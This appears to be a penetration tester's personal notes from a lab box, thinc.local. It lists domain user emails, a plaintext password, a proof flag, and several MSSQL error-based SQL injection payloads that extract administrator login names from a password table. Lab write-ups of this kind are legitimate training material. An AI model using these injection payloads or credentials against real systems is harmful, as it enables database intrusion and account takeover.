 ```shell
users:

eric@thinc.local 
alice@thinc.local
pedro@thinc.local
admin@thinc.local
```


```shell
#looking at alogins
# 1st = administrator

', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 alogin FROM (SELECT top 1 alogin FROM archive..pmanager ORDER BY psw ASC) sq ORDER BY alogin DESC)+CHAR(58)+CHAR(58))))--
```

![[25. administrator.png]]

```shell
# 2nd = webadmin
', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 alogin FROM (SELECT top 2 alogin FROM archive..pmanager ORDER BY psw ASC) sq ORDER BY alogin DESC)+CHAR(58)+CHAR(58))))--
```

![[26. webadmin.png]]
```shell

# only 2, 3-4 arent changing
', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 alogin FROM (SELECT top 4 alogin FROM archive..pmanager ORDER BY psw ASC) sq ORDER BY alogin DESC)+CHAR(58)+CHAR(58))))--
```

```shell
#credentials with emails and alogins found arent working for rdp session:

eric@thinc.local 
alice@thinc.local
pedro@thinc.local
admin@thinc.local
administrator
webadmin

pass:
sup3rs3cr3t

login with eric
flag - come back to box later when no one is on it
0c012af5208bac5826bb9dd4d4caedf8

```

```shell
#downloaded thunderbird using
https://raw.githubusercontent.com/mozilla/sumo-kb/main/installing-thunderbird-linux/thunderbird.desktop
```

![[27. proof.txt.png]]